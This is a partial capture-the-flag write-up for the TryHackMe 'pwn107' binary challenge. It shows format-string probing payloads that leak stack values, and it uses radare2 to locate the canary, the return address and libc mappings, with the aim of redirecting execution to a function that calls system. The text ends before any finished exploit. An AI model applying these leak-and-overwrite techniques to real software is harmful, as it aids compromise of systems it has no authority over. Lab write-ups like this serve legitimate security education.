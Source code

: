 # Challenge Name: pwn107 

**Category:** pwn

# Approach

First we can see it has prinf vulnerabilities. Next Let's search for call system

I see it . it under the function sys.get_streak()

So our goal is try to rewrite the ret address to that function . However we have to keep in mind that this ELF file has Canary and PIE `enable` .


## Search our buffer

```
THM: What's your last streak? ABCD.%lx.%lx.%lx.%lx.%lx.%lx 
Thanks, Happy hacking!!
Your current streak: ABCD.7ffc784b45d0.0.0.0
```
hmm no our input

```
THM: What's your last streak? ABCD.%5$lx.%6$lx.%7$lx.%8$lx
Thanks, Happy hacking!!
Your current streak: ABCD.7fb0495cab30.2435252e44434241.%

```

I see our input is at 6th position


## PIE

The addresss of get_streak() will change every executiuon. However the offset didnt change or the difference in address didnt change

# Debugging

`r2 -d -A pwn107-1644307530397.pwn107`

`pdf @ main`

```
 db 0x55f337400a36
[0x7ff0ebb3f810]> db 0x55f337400a3b

```

```
[0x55f337400a36]> pxr @ rsp
0x7fff355d2920 0x00000a49565a4152   RAZVI... @ rsp
0x7fff355d2928 ..[ null bytes ]..   00000000 
0x7fff355d2948 0x00007ff0ebb40c40   @....... /usr/lib/x86_64-linux-gnu/ld-linux-x86-64.so.2 library R X 'push rbp' 'ld-linux-x86-64.so.2'
0x7fff355d2950 ..[ null bytes ]..   00000000 
0x7fff355d2958 0x3d340fabfc1e8c00   ......4=
0x7fff355d2960 0x0000000000000001   ........ @ rbp 1
0x7fff355d2968 0x00007ff0eb94cc8a   ........

```

we can see that our canary is at rbp - 0x8

```
0x7fff355d2958 0x3d340fabfc1e8c00   ......4=
```

and the return address is at rbp + 0x8

so `0x00007ff0eb94cc8a ` is the return address

```
dm
0x000055f337400000 - 0x000055f337401000 * usr     4K s r-x /home/kali/TryHackMe/pwn101/pwn107/pwn107-1644307530397.pwn107 /home/kali/TryHackMe/pwn101/pwn107/pwn107-1644307530397.pwn107 ; map._home_kali_TryHackMe_pwn101_pwn107_pwn107_1644307530397.pwn107.r_x
0x000055f337601000 - 0x000055f337602000 - usr     4K s r-- /home/kali/TryHackMe/pwn101/pwn107/pwn107-1644307530397.pwn107 /home/kali/TryHackMe/pwn101/pwn107/pwn107-1644307530397.pwn107 ; map._home_kali_TryHackMe_pwn101_pwn107_pwn107_1644307530397.pwn107.rw_
0x000055f337602000 - 0x000055f337603000 - usr     4K s rw- /home/kali/TryHackMe/pwn101/pwn107/pwn107-1644307530397.pwn107 /home/kali/TryHackMe/pwn101/pwn107/pwn107-1644307530397.pwn107 ; loc.__data_start
0x00007ff0eb922000 - 0x00007ff0eb925000 - usr    12K s rw- unk0 unk0
0x00007ff0eb925000 - 0x00007ff0eb94b000 - usr   152K s r-- /usr/lib/x86_64-linux-gnu/libc.so.6 /usr/lib/x86_64-linux-gnu/libc.so.6
0x00007ff0eb94b000 - 0x00007ff0ebaa2000 - usr   1.3M s r-x /usr/lib/x86_64-linux-gnu/libc.so.6 /usr/lib/x86_64-linux-gnu/libc.so.6
0x00007ff0ebaa2000 - 0x00007ff0ebaf7000 - usr   340K s r-- /usr/lib/x86_64-linux-gnu/libc.so.6 /usr/lib/x86_64-linux-gnu/libc.so.6
0x00007ff0ebaf7000 - 0x00007ff0ebafb000 - usr    16K s r-- /usr/lib/x86_64-linux-gnu/libc.so.6 /usr/lib/x86_64-linux-gnu/libc.so.6
0x00007ff0ebafb000 - 0x00007ff0ebafd000 - usr     8K s rw- /usr/lib/x86_64-linux-gnu/libc.so.6 /usr/lib/x86_64-linux-gnu/libc.so.6
```

We can see that the address is in gnulib-c